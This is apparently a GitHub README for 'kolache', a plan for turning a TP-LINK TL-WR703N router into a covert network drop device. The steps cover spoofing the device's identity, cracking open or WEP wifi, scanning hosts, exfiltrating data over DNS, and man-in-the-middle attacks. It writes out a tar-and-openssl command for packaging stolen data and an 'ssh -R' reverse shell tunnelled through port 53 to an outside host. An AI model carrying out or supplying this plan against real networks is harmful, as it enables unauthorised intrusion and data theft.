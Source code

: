 kolache
=======

Description
----
Create open source wifi-pineapple with the TP-LINK TL-WR703N

Installation/Build Instructions
----

Additional Info and Links
----
applications needed on router for dns exfil:

[dig] (https://hackucf.org/blog/hack-all-the-things-exfiltrating-data-via-dns-requests/)

[xxd] (http://jontai.me/blog/2011/11/monitoring-dns-queries-with-tcpdump/)


1.) External drive will be encrypted. 

> http://oneitguy.com/blog/encrypted-remote-backup-openwrt

> https://dev.openwrt.org/ticket/10787

> http://gui-at.blogspot.com/2010/02/disk-encryption-in-openwrt.html

> http://sjoosten.nl/2013/06/luks-usb-stick.html

2.) Console into the router via Ethernet before 'drop off'.

2.1) Mount the SD card via SSH with encryption password. 

3.) Run a script that changes the device host name and mac address to something like an apple iphone/ipad or samsung android device. 

3.1) Set up the device for monitoring in a given number minutes.

4.) The WR-703N will scans for available wifi networks. It will find unencrypted wifi or WEP and crack them.
  
5.) Once on the target network, does an arp scan / nmap of hosts and other 'fun things'.

6.) The WR-703N will find its way to internet.

7.) The WR-703N will exfil some data. All data should be encrypted with openssl before exfiltration.

> tar -P -zcf - $dirname | openssl aes-256-cbc -out $dirname.tar.gz -k 1234

(tar/gzip everything in a given directory. AES-128 encrpt file. set the password to the file as "1234")


8.) The WR-703N will open a reverse SSH shell into the target network. 
> ssh -R 53:localhost:22 sourceuser@public ip

> tunnel through port 53 (because it it is normally unblocked)

> http://www.howtoforge.com/reverse-ssh-tunneling

9.) Lastly, win... Think man-in-the-middle attacks. dsniff, sslstrip, etc.